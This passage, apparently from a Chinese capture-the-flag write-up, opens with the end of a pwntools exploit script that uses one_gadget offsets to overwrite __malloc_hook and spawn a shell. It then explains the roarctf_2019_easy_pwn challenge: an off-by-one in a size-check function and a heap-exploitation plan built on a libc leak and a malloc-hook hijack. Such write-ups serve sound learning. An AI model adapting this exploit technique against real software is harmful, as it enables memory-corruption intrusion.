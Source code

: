 ```python
create(0x68,'b')#5

one = [0x45226,0x4527a,0xf0364,0xf1207]
# one = [0x45216,0x4526a,0xf02a4,0xf1147]
onegadget = libc_base + one[1]
log.info("one:"+hex(onegadget))

payload = 'a'*11 + p64(onegadget) + p64(realloc+12) + '\n'
edit(5,payload)


gdb.attach(p)
# create(0x10,'skye,yyds')
p.sendlineafter("choice: ",'1')
p.sendlineafter('?',str(0x10))


p.interactive()
```

### roarctf_2019_easy_pwn

#### 基本功能

一个堆管理器，有增删查改功能。所有功能都是基于列表的下标定位操作对象。用 3 个列表维护堆：chunk_inuse、chunk_size、chunk_ptr。

#### 漏洞

在 edit 功能里面 sub_E26 函数，这个函数用来处理输入长度的，具体代码如下：

```c
__int64 __fastcall check_size(signed int size, unsigned int input_length)
{
  __int64 result; // rax

  if ( size > (signed int)input_length )
    return input_length;
  if ( input_length - size == 10 )
    LODWORD(result) = size + 1;	//off by one
  else
    LODWORD(result) = size;
  return (unsigned int)result;
}
```

当我们要求写入的长度（input_length）大于堆 size 10 个字节时，就可以写入 size + 1 字节，造成 off by one 。

#### 思路

这条题目和 ``[V&N2020 公开赛]simpleHeap`` 思路一样。

使用 off by one 伪造 chunk size，造成 chunk extend ，再利用 unsorted bin 的特点，泄露出 unsorted bin fd 指针的 libc 地址。

将上一步中的 chunk extend 剩下在 bin 中的内存申请出来，造成两个指针指向同一个地址，配合 edit 功能实现 houst of spirit ，劫持 \_\_malloc_hook 。
